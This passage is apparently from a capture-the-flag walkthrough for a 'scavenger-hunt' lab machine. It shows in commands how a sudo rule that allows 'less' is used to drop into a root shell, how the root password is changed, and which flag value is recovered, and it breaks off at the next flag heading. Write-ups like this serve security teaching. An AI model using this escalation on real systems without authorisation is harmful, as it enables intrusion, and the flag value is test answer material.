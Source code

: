 Find an exploit to gain a root shell.

**Solution:**

Look at the `sudo` permissions for sysadmin:

```bash
sysadmin:~\ $ sudo -l
[sudo] password for sysadmin: 
Matching Defaults entries for sysadmin on scavenger-hunt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadmin may run the following commands on
        scavenger-hunt:
    (ALL : ALL) /usr/bin/less
```

You have the ability to run `less` with `sudo`. 

Run less on a file and drop to a root shell:

```bash
sysadmin:~\ $ touch file && sudo less file
```

Once inside `less` open a bash shell with `:` then `!bash`

```bash
sysadmin:~\ $ touch file && sudo less file
root:/home/sysadmin#
```

### flag_7:

Login as the root user.

**Solution:**
Now that you have a root shell, change the password for the root user and then login as `root`.

```bash
root:~\ $ passwd
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
root:~\ $ exit
exit
!done  (press RETURN)
sysadmin:~\ $ su root
Password: 

You found flag_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0

root@scavenger-hunt:/home/sysadmin#
```

### flag_8:
